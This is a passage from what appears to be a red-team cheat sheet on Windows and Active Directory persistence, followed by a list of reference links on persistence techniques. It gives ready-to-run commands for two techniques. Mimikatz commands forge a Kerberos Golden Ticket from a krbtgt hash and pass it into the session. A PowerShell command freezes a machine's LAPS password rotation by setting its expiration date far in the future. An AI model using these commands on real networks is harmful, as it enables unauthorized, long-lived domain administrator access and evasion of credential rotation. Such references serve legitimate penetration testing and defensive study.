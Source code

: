 
### Golden Ticket

> Forge a Golden ticket using Mimikatz

```ps1
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

### LAPS Persistence

To prevent a machine to update its LAPS password, it is possible to set the update date in the futur.

```ps1
Set-DomainObject -Identity <target_machine> -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

## References

* [Windows Persistence Commands - Pwn Wiki](http://pwnwiki.io/#!persistence/windows/index.md)
* [SharPersist Windows Persistence Toolkit in C - Brett Hawkins](http://www.youtube.com/watch?v=K7o9RSVyazo)
* [IIS Raid – Backdooring IIS Using Native Modules - 19/02/2020](https://www.mdsec.co.uk/2020/02/iis-raid-backdooring-iis-using-native-modules/)
* [Old Tricks Are Always Useful: Exploiting Arbitrary File Writes with Accessibility Tools - Apr 27, 2020 - @phraaaaaaa](https://iwantmore.pizza/posts/arbitrary-write-accessibility-tools.html)
* [Persistence - Checklist - @netbiosX](https://github.com/netbiosX/Checklists/blob/master/Persistence.md)
* [Persistence – Winlogon Helper DLL - @netbiosX](https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/)
* [Persistence - BITS Jobs - @netbiosX](https://pentestlab.blog/2019/10/30/persistence-bits-jobs/)
* [Persistence – Image File Execution Options Injection - @netbiosX](https://pentestlab.blog/2020/01/13/persistence-image-file-execution-options-injection/)
* [Persistence – Registry Run Keys - @netbiosX](https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/)
* [Golden Certificate - NOVEMBER 15, 2021](https://pentestlab.blog/2021/11/15/golden-certificate/)
* [Beware of the Shadowbunny - Using virtual machines to persist and evade detections - Sep 23, 2020 - wunderwuzzi](https://embracethered.com/blog/posts/2020/shadowbunny-virtual-machine-red-teaming-technique/)
* [Persistence via WMI Event Subscription - Elastic Security Solution](https://www.elastic.co/guide/en/security/current/persistence-via-wmi-event-subscription.html)